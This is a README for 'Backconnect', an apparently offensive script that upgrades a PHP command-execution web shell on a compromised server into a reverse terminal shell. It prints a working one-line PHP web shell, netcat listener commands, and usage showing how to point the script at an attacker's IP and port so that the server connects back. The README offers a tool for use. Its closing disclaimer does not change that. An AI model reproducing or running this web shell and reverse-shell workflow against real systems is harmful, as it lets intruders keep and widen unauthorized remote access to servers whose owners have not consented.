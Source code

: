 # Backconnect
A simple script to perform various methods to gain a terminal shell from a simple PHP shell.

## Introduction
After gaining a command execution shell on a server, this script will help leverage that into a backconnected terminal shell using various payloads.

##### Example PHP Shell:
```
<?php system($_GET['cmd']); ?>
```

## Usage
1. Install the command execution shell so it is publicly accessible via a URL.
2. Set up a listener to receive the incoming connection.
	- `nc -nvlp {PORT}`
	- `nc -nvlp {PORT} -s {HOST}`
3. Run this script.

## How to use

```
./eof-backconnect.py [-u URL] [-i IP] [-p PORT]
```
##### URL
This is the URL of the command execution shell, including the necessary injection parameter.

##### IP
This is the listener IP for the remote server to back-connect to.

##### PORT
This is the listener port for the target server to back-connect over.

#### Example:
```
./backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337
```

## Disclaimer
Usage of this tool for attacking targets without prior mutual consent
is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or
damage caused by this program

